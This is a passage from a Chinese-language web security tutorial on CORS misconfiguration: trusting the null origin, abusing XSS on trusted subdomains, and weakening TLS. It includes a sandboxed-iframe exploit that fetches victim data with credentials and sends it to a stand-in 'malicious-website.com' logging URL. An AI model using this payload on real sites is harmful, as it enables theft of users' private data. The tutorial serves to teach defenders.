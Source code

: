 服务器响应：

```text
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

在这种情况下，攻击者可以使用各种技巧来生成跨域请求，该请求在Origin标头中包含null值。 这将满足白名单的要求，从而导致跨域访问。 例如，可以使用以下格式的沙箱iframe跨域请求来完成此操作：

```markup
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

**实验室**具有可信任的空来源的CORS漏洞

### 通过CORS信任关系利用XSS

甚至“正确”配置的CORS也会在两个来源之间建立信任关系。 如果网站信任易受跨站点脚本（XSS）攻击的来源，则攻击者可能利用XSS注入一些JavaScript，这些JavaScript使用CORS从信任易受攻击的应用程序的站点检索敏感信息。

给出以下请求：

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

如果服务器响应：

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

然后，在subdomain.vulnerable-website.com上发现XSS漏洞的攻击者可以使用该URL来通过URL检索API密钥：

```http
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

### 使用配置不良的CORS破坏TLS

假设严格使用HTTPS的应用程序还将使用纯HTTP的受信任子域列入白名单。 例如，当应用程序收到以下请求时：
